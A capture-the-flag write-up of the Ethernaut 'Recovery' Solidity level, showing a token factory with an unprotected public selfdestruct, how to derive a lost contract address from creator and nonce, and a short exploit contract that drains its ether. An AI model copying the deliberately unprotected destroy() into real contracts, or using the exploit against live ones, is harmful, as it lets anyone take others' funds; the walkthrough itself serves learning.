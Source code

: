![](https://ethernaut.openzeppelin.com/imgs/BigLevel17.svg)

A contract creator has built a very simple token factory contract. Anyone can create new tokens with ease. After deploying the first token contract, the creator sent `0.001` ether to obtain more tokens. They have since lost the contract address.

This level will be completed if you can recover (or remove) the `0.001` ether from the lost contract address.

```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Recovery {

  //generate tokens
  function generateToken(string memory _name, uint256 _initialSupply) public {
    new SimpleToken(_name, msg.sender, _initialSupply);
  
  }
}

contract SimpleToken {

  string public name;
  mapping (address => uint) public balances;

  // constructor
  constructor(string memory _name, address _creator, uint256 _initialSupply) {
    name = _name;
    balances[_creator] = _initialSupply;
  }

  // collect ether in return for tokens
  receive() external payable {
    balances[msg.sender] = msg.value * 10;
  }

  // allow transfers of tokens
  function transfer(address _to, uint _amount) public { 
    require(balances[msg.sender] >= _amount);
    balances[msg.sender] = balances[msg.sender] - _amount;
    balances[_to] = _amount;
  }

  // clean up after ourselves
  function destroy(address payable _to) public {
    selfdestruct(_to);
  }
}
```

Solution:
## Analysis

```sol
function destroy(address payable _to) public {
    selfdestruct(_to);
}
```

As it is evident from the question, we need to find the lost contract address. Once this is found, we can just call the `destroy()` function on the contract to withdraw the funds since the visibility is set to `public`. Let's derive the lost address.

### Method 1 - Using the Formula

According to the Ethereum Yellow Paper -

> The address of the new account is defined as being the rightmost 160 bits of the Keccak hash of the RLP encoding of the structure containing only the sender and the account nonce.

This means that the new address will be the rightmost 160 bits of the keccak256 hash of RLP encoding of sender/creator_address and their nonce.

- sender address - It is the address that created the contract.
- nonce - It is the number of contracts created by the factory contract or if it's an EOA, it will be the number of transactions by that account. In this case, it will be 1 assuming it is the first contract created by the factory.
- RLP - The purpose of RLP is to encode arbitrarily nested arrays of binary data, and RLP is the primary encoding method used to serialize objects in Ethereum's execution layer.
    - RLP for 20 byte address will be `0xd6, 0x94` according to the following sources: [here](https://ethereum.stackexchange.com/questions/760/how-is-the-address-of-an-ethereum-contract-computed), and [here](https://ethereum.org/en/developers/docs/data-structures-and-encoding/rlp).
    - RLP encoding for nonce 1 will be `0x01` because for all values under [0x00, 0x7f] (decimal [0, 127]) range, that byte is its own RLP encoding.

Now that we know the above values, we can calculate the first address created by the factory contract as:

```sol
address lostcontract = address(uint160(uint256(keccak256(abi.encodePacked(bytes1(0xd6), bytes1(0x94), address(<creator_address>), bytes1(0x01))))));
```


### Method 2 - Using Etherscan

This is preferably the easiest method as you won't need to know any calculations and formulas to find the address because the block explorer will show it to you.

Go to [Etherscan](https://rinkeby.etherscan.io/address/0xd89bEAe5D371Bc79754623f7f789a395F3D83b3C#internaltx) and enter the instance address in the search field and look inside the internal transactions.

The transaction flow can be seen creating another contract from the address of the first one.

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1661699195981/-G3j7Oupr.png?auto=compress,format&format=webp)

This is the address that was lost containing 0.001 Ether stored in it:

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1661699266801/CsUVwGwgd.png?auto=compress,format&format=webp)

---
Exploit:
```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface ISimpleToken {
  function destroy(address payable _to) external;
}

contract PWN {
  address tmp = 0xF5F460bc4Ac4BAF00C0d6660c6E862c45A5204cb;
  function pwn() external {
    ISimpleToken Itmp = ISimpleToken(tmp);
    Itmp.destroy(payable(0x095454F216EC9485da86D49aDffAcFD0Fa3e5BE5));
  }
}

```

___
Contract addresses are deterministic and are calculated by `keccak256(address, nonce)` where the `address` is the address of the contract (or ethereum address that created the transaction) and `nonce` is the number of contracts the spawning contract has created (or the transaction nonce, for regular transactions).

Because of this, one can send ether to a pre-determined address (which has no private key) and later create a contract at that address which recovers the ether. This is a non-intuitive and somewhat secretive way to (dangerously) store ether without holding a private key.

An interesting [blog post](https://swende.se/blog/Ethereum_quirks_and_vulns.html) by Martin Swende details potential use cases of this.

If you're going to implement this technique, make sure you don't miss the nonce, or your funds will be lost forever.